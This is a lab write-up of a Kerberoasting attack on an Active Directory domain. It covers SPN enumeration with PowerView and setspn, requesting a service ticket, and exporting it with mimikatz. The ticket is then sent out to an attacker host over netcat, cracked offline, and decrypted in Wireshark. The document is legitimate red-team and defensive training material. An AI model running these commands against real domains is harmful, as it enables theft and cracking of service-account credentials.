

# T1208: Kerberoasting

## Execution

Note the vulnerable domain member - a user account with `servicePrincipalName` attribute set:


Attacker setting up an nc listener to receive a hash for cracking:



```csharp
nc -lvp 443 > kerberoast.bin
```



### Extracting the Ticket

Attacker enumerating user accounts with `serverPrincipalName` set:



```csharp
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```




Additionally, user accounts with SPN set could be extracted with a native windows binary:

```text
 setspn -T medin -Q */*
```


Attacker requesting a kerberos ticker for a user account with `servicePrincipalName` set to `HTTP/dc-mantvydas.offense.local`- it gets stored in the memory:



```csharp
Add-Type -AssemblyName System.IdentityModel  
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/dc-mantvydas.offense.local"
```




Using mimikatz, the attacker extracts kerberos ticket from the memory and exports it to a file for cracking:



```csharp
mimikatz # kerberos::list /export
```




Attacker sends the exported service ticket to attacking machine for offline cracking:



```csharp
nc 10.0.0.5 443 < C:\tools\mimikatz\x64\2-40a10000-spotless@HTTP~dc-mantvydas.offense.local-OFFENSE.LOCAL.kirbi
```



### Cracking the Ticket

Attacker brute forces the password of the service ticket:



```csharp
python2 tgsrepcrack.py pwd kerberoast.bin
```




## Observations

Below is the screenshot showing a request being sent to the `Ticket Granting Service` \(TGS\) for the service with a servicePrincipalName `HTTP/dc-mantvydas.offense.local` :



Below is the response from the TGS for the user `spotless` \(we initiated this attack from offense\spotless\) which contains the encrypted \(RC4\) kerberos ticket to access the `HTTP/dc-mantvydas.offense.local` service. It is the same ticket we cracked earlier with [tgsrepcrack.py](t1208-kerberoasting.md#cracking-the-ticket):


Out of curiosity, let's decrypt the kerberos ticket since we have the password the ticket was encrypted with.

Creating a kerberos keytab file for use in wireshark:



```bash
root@~# ktutil 
ktutil:  add_entry -password -p HTTP/iis_svc@dc-mantvydas.offense.local -k 1 -e arcfour-hmac-md5
Password for HTTP/iis_svc@dc-mantvydas.offense.local: 
ktutil:  wkt /root/tools/iis.keytab
```




Adding the keytab to wireshark:


Note how the ticket's previously encrypted piece is now in plain text and we can see information pertinent to the requested ticket for a service `HTTP/dc-mantvydas.offense.local` :








{% embed data="{\"url\":\"https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/\",\"type\":\"link\",\"title\":\"Extracting Service Account Passwords with Kerberoasting \| Insider Threat\",\"description\":\"Kerberoasting is effective for extracting service account credentials from Active Directory without needing elevated rights or causing domain traffic.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2016/06/cropped-Logo\_STEALTHbits\_Orb\_Blue\_250x250-192x192.png\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.stealthbits.com/wp-content/uploads/2017/05/Blog2-banner-Extract-Service-Account-Passwords-Kerberoasting1024x326.jpg\",\"width\":1024,\"height\":326,\"aspectRatio\":0.318359375}}" %}

{% embed data="{\"url\":\"https://blog.xpnsec.com/kerberos-attacks-part-1/\",\"type\":\"link\",\"title\":\"Kerberos AD Attacks - Kerberoasting\",\"description\":\"Recently I\'ve been trying to make sure that my redteam knowledge is up to date, exploring many of the advancements in Active Directory Kerberos attacks... and there have been quite a few! I finally found some free time this week to roll up my sleeves and dig into the internals\",\"icon\":{\"type\":\"icon\",\"url\":\"https://blog.xpnsec.com/assets/favicon/android-icon-192x192.png?v=94d6be4395\",\"width\":192,\"height\":192,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://blog.xpnsec.com/content/images/2017/09/cerberos-1.jpg\",\"width\":615,\"height\":539,\"aspectRatio\":0.8764227642276423}}" %}

